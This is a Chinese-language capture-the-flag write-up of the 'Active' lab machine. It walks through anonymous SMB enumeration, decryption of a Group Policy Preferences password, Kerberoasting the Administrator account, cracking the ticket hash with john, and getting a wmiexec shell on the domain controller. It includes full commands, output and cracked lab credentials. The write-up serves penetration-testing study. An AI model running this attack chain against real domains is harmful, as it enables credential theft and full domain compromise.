

## 00. 摘要

> 关键词：匿名账户、组策略首选项攻击、Kerberoast攻击

1. 使用匿名账户枚举SMB服务，从组策略首选项中拿到 `SVC_TGS` 账户
2. 使用 `SVC_TGS` 账户收集Bloodhound数据
3. 分析Bloodhound数据，发现可以使用Kerberoast攻击 `Administrator` 账户
4. 使用Kerberoast攻击得到ST，然后使用 john 爆破该ST获得 `Administrator` 账户的明文密码

## 01. 信息收集

使用 `rustscan` 进行端口扫描，发现如下开放端口

```bash
kali@kali[~]$ rustscan -u 5000 -a 10.10.10.100
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Making sure 'closed' isn't just a state of mind.

[~] The config file is expected to be at "/home/player/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.10.100:53
Open 10.10.10.100:88
Open 10.10.10.100:135
Open 10.10.10.100:139
Open 10.10.10.100:389
Open 10.10.10.100:445
Open 10.10.10.100:464
Open 10.10.10.100:593
Open 10.10.10.100:3268
Open 10.10.10.100:5722
Open 10.10.10.100:9389
Open 10.10.10.100:49152
Open 10.10.10.100:49153
Open 10.10.10.100:49154
Open 10.10.10.100:49155
Open 10.10.10.100:49157
Open 10.10.10.100:49158
Open 10.10.10.100:49166
Open 10.10.10.100:49168
Open 10.10.10.100:49165
```

## 02. 使用匿名账户枚举 SMB服务

在没有任何账户的情况下，尝试使用Windows内置的Guest账户枚举SMB文件共享

```bash
kali@kali[~]$ netexec smb 10.10.10.100 -u "Guest" -p "" --shares
SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [-] active.htb\Guest: STATUS_ACCOUNT_DISABLED
```

发现 `STATUS_ACCOUNT_DISABLED`，说明 `Guest` 账户被禁用。

再尝试使用匿名账户进行枚举

```bash
kali@kali[~]$ netexec smb 10.10.10.100 -u "" -p "" --shares
SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\: 
SMB         10.10.10.100    445    DC               [*] Enumerated shares
SMB         10.10.10.100    445    DC               Share           Permissions     Remark
SMB         10.10.10.100    445    DC               -----           -----------     ------
SMB         10.10.10.100    445    DC               ADMIN$                          Remote Admin
SMB         10.10.10.100    445    DC               C$                              Default share
SMB         10.10.10.100    445    DC               IPC$                            Remote IPC
SMB         10.10.10.100    445    DC               NETLOGON                        Logon server share 
SMB         10.10.10.100    445    DC               Replication     READ            
SMB         10.10.10.100    445    DC               SYSVOL                          Logon server share 
SMB         10.10.10.100    445    DC               Users
```

发现可以使用匿名账户访问 `Replication` 共享，访问该文件共享。

```bash
kali@kali[~]$ impacket-smbclient ""@10.10.10.100 -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use Replication
# tree
/active.htb/DfsrPrivate
/active.htb/Policies
/active.htb/scripts
/active.htb/DfsrPrivate/ConflictAndDeleted
/active.htb/DfsrPrivate/Deleted
/active.htb/DfsrPrivate/Installing
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/USER
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/USER
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
Finished - 29 files and folders
```

发现该文件共享中存在组策略文件(Group Policies)

我们使用 `impacket-Get-GPPPassword` 枚举该文件共享中是否有账户密码

> [!note]
> 如果通过组策略设置用户的密码，那么该密码会以加密的形式存储在组策略首选项(Group Policy  Preferences)中。
> 但是，所有组策略(Group Policy)都存储在域控制器的 `SYSVOL` 共享中，所有域用户对此具有读取权限。
> 并且，由于微软在 2012 年左右发布了加密密钥，因此密码可以被直接解密🤷‍♂️。

```bash
kali@kali[~]$ impacket-Get-GPPPassword ""@10.10.10.100 -no-pass -share Replication
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Listing shares...
  - ADMIN$
  - C$
  - IPC$
  - NETLOGON
  - Replication
  - SYSVOL
  - Users

[*] Searching *.xml files...
[*] Found a Groups XML file:
[*]   file      : \\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
[*]   newName   : 
[*]   userName  : active.htb\SVC_TGS
[*]   password  : GPPstillStandingStrong2k18
[*]   changed   : 2018-07-18 20:46:06
```

得到 `SVC_TGS` 的账号密码

```
username: SVC_TGS
password: GPPstillStandingStrong2k18
```

## 03. 使用Bloodhound收集域信息


拿到账户密码之后，使用 RustHound 收集域信息，然后用 [BloodHound-Tips](/blog/BloodHound-Tips) 分析，发现可以对Administrator账户进行 [Kerberoast](/blog/Kerberoast) 攻击

## 04. Kerberoast攻击提权到Administrator

接下来我们来利用 Kerberoast 攻击获取 `Administrator` 权限

> [!note]
> 当向密钥分发中心(KDC) 请求服务票据(ST) 时，请求的用户需要发送有效的 TGT 以及所需服务的名称 (`sname`)。如果 TGT 有效，并且服务存在，则 KDC 会将 ST 发送给请求的用户。
> 
> 并且，这张 ST 是用该服务的服务账户的 NT hash 进行加密的。

1. 从Bloodhound上，可以看到 `Administrator` 账户设置了 `Serviceprincipalnames(SPN)` 为 `active/CIFS:445`。`Administrator` 即为该服务的服务账户。
2. 我们拥有有效的域用户 `SVC_TGS`，申请 `active/CIFS:445` 服务的服务票据(ST)
3. 申请到的服务票据(ST)是由服务账户的NT hash加密生成的，即用`Administrator`账户的NT hash加密生成。

```bash
kali@kali[~]$ impacket-GetUserSPNs 'active.htb'/'SVC_TGS':'GPPstillStandingStrong2k18' -request-user Administrator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 12:06:40.351723  2025-03-14 04:44:05.092173             


[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$7ef9434bf8c12b5aad15a88fe7d2416b$a58d114dc20bae25178263672ca0a009b77fcd40721fd22dfe2b405653d501e9315d50cee92f72097b0831f782d55da6f2a04df784035ebabb6a969ae160f33879131175823bf6876505f55d7f8c4f3f4b5d48eaf890b61f7e6102d12f02970f6c3ace30c624bd977f1d09fb884263b88d8cc06586755ac16a577013ebdc11deb9bdd9e28afc21a7a60016c69a935990c360c0d6c587b0538cd1822026996cc1429bfcc1e612ff2419922fcd1b5dba32be8038a5526a8ce580e9b964540b6a066056c2224be9e4e5e4a1b8f93a3584794b4fe02114f05c1b81837974113427754ab9cc34404d27b8497f5c7b409d54dff78331a35af74505d0f5f08aa08830167ff540303009ff258490e27c8ff99c01a1d47bdfc562231f7d2e2a37da4481795c126d8ff71693649a50b9129dd3744180d0079bf15f53ab35b231d614b3fa9f85d9488e00884d46da590e437802666e12f01f9177a030a9d9a338aa6ee471a4e95b1d126987756e809009e193decae5deba90c9a9ab64adb99ae6a2a601ada9840f2abd04ef9e3d5f721148e705cb925934ca387eaa23d55d2b0615e751bde7f1a12d9125e08f988fe7575e01ab94e024a604abbd9c6b8b5707744098cbab12501fd6eeac61f6b8e6014bd46e5d305694f7d6fd223eda01fa6de182672a64afe4d73d8f8fde70c7c2f513beb624e8b7806bf62399572dee4cc5829f0360742f81c1d88d8f798755981e87e9ed3eb13851e69f3d5ac60f6e23cdd2239cf36e584010b03d812628253aab25965af6c6723bd7ff9db3a469db0603eb3b78c257c986663c4a23e59565759272114acc19c0105c8e227efef3c8758498b2a236a45a0f69b26931f515405b480ccd890ba2c07a4b02ef53f2f68a072bc936c989dc95dfae40eaa5aa2f2efb69a526d98bd2ad78de17069144fbab45896b2a5e0d85859f58cf5b826bec99f20246bffd8193c4b0a28c08fb2914fd88cf6e27388c118ee398a87fb1676ec33438032939ba0e807cf049ebfe13f52ebe06fa0762ba9917ada48e1f788f33d32d5cc298543e6e697acc3341c1a80c7de43fa452bd76cf4997cac72954ab4a6c85d7b873118fe87022d547ea0ad2f30a5856e05cf29ddd6e49d437435ed31a4e99acb8894468ef61fe6e54fe66d504527fa6e26a8cb8d44e3d96cdf82787c2a6469100d7d1eaea0430ff1406359d1f46b2808752718ec5aa6cf8b9a7f264c0fd22cbf18eb15e6d3722dc3c1a48b530b66a39
```

得到ST之后使用 john 爆破得到明文密码。

```bash
kali@kali[~]$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)     
1g 0:00:00:21 DONE (2025-03-14 05:22) 0.04714g/s 496816p/s 496816c/s 496816C/s Tiffani1432..Tiago_18
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

```
username: Administrator
password: Ticketmaster1968
```

现在我们有 Administrator 账户的NT hash了，可以使用 `wmiexec` 连接到域控

```bash
kali@kali[~]$ impacket-wmiexec 'Administrator':'Ticketmaster1968'@'dc.active.htb'       
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv2.1 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
active\administrator
```

---
## 参考链接
1. 文章：使用匿名账户访问SMB
   https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smb/index.html#list-shared-folders
2. 文章：组策略首选项攻击
   https://www.thehacker.recipes/ad/movement/credentials/dumping/group-policies-preferences
3. 文章：Kerberoast攻击
   https://www.thehacker.recipes/ad/movement/kerberos/kerberoast
4. 工具：NetExec
   https://github.com/Pennyw0rth/NetExec
5. 工具：Impacket
   https://github.com/fortra/impacket
6. 工具：RustScan
   https://github.com/RustScan/RustScan
7. 工具：BloodHound
   https://github.com/SpecterOps/BloodHound
8. 工具：John the Ripper
    https://github.com/openwall/john
